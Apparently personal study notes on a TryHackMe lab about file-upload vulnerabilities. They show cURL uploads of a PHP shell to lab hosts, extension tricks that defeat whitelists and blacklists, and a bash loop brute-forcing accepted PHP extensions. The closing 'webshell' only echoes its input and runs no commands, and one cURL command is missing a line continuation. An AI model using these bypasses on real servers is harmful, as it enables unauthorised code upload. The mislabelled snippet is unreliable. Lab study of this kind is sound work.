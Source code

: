 # Upload vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
TryHackMe upload vulnerabilities practice room
{% endembed %}

### Bypassing client-side filtering

1. Direct server requests with _cURL_

_Eg._

> Task 7 of the _tryhackme.com_ practice room (link provided at the top)

The following Javascript file defines the client-side filtering logic, which only allows file uploads of the type `image/png`:

```javascript
...
...
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}

...
...
```

Given the following form field in the HTML source code:

```html
<form method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
</form>
```

A cURL request can be sent directly to the server — completely bypassing the client-side filter.

The `-F` or `--form` flag in the _cURL_ command can be used to send form-data (given that the file `shell.php` is found in the same directory):

```bash
curl 'http://java.uploadvulns.thm/' \
  -H 'Host: java.uploadvulns.thm' \
  -F 'fileToUpload=@shell.php;type=text/x-php'
  -F 'submit=Upload'
```

The Content-Type header will be automatically added to the final  HTTP _POST_ request, and will look like the following:

```http
Content-Type: multipart/form-data; boundary=------------------------xxxx
```



2. Interceping and modifying requests with _BurpSuite_

_BurpSuite_ can be used to modify:

a) The GET response from the server to the client, allowing the removal of JavaScript filter logic loaded on the client side&#x20;

b) The POST request sent to the server, enabling the removal of client-side filtering before the data is uploaded



### Bypassing server-side filtering

1. Presence of valid file extension anywhere within the filename (_whitelist_)

Some server-side filtering logic may involve simply checking for the presence of a file extension string within the filename:

```php
IF STRING ".[file-ext]" IS IN VARIABLE <user_input>:
    PROCEED
ELSE:
    RETURN ERROR MESSAGE
```

Eg. Given that the valid file extension is `.jpg`. A possible valid filename can be: `shell.jpg.php`. This allows us to bypass the filter and upload a PHP file.



2. Uncommon file extension for the same file-type (_blacklist_)

Some server-side filtering logic may check the file extension, and reject the file based on a blacklist. However, chances are that the list is non-exhaustive of all the possible file extensions for the same file-type. This allows us to sneak a filename through the filters, which may be recognized and properly executed by the server.

Refer to the sub-page named: _**File extension cheat-sheet**_.

### Examples

Eg.

> Task 8 of the _tryhackme.com_ practice room (link provided at the top)

This challenge requires the combination of method 1 and 2 discussed above (\*\*TO CONFIRM).

I decided to create a simple Bash shell script to automate the process of finding the valid filename.

_**php-ext.txt**_ (wordlist of PHP file extensions)

```
.phtml
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
```

_**Bash shell script**_

```sh
#!/bin/bash

file="php-ext.txt"
while IFS="" read -r cur;
do
	if [[ -z "$cur" ]]; then
		continue
	fi

	res=$(curl http://annex.uploadvulns.thm -H "Host: annex.uploadvulns.thm" -F "fileToUpload=@shell.jpg$cur;type=application/octet-stream" -F "submit=Upload" -s -o /dev/null -D - | grep 'location')

	# alternatively,
	# if [[ "$res" == *"/?submit=success"* ]]; then
	if echo "$res" | grep -q "/?submit=success"; then
		printf "FOUND: $cur"
		exit 0
	fi

done < "$file"
```

Output: `FOUND: .php5`

The accepted PHP shell script filename is `shell.jpg.php5`.



Simple webshell (to transfer to a dedicated _**WEBSHELL**_ section?)

```php
<?php
// Check if 'cmd' parameter is set in the URL
if (isset($_GET['cmd'])) {
    // Get the value of 'cmd' parameter
    $cmd = $_GET['cmd'];

    // Display the value
    echo "Command: " . htmlspecialchars($cmd);
} else {
    echo "No command provided.";
}
?>
```
